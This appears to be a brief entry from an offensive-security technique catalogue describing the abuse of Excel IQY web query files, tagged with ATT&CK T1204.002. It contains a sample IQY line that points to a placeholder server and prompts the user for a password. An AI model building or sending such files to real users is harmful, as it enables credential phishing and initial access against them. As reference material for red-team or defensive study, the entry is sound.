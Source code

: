# IQY
Web Query (IQC) files are associated with Microsoft Excel.
Web queries allow you to query data from a specific World Wide Web, Internet, or intranet site and retrieve the information directly into a Microsoft Excel worksheet

## Sample
```text
WEB 1 http://SERVER/["a","Please Enter Your Password"]
```

## References
[source](http://www.labofapenetrationtester.com/2015/08/abusing-web-query-iqy-files.html)

## Tools
########
########

```meta
ttp: T1204.002
internal: false
requirements:
results: user, admin
description: IQY (Web Query) Excel files
```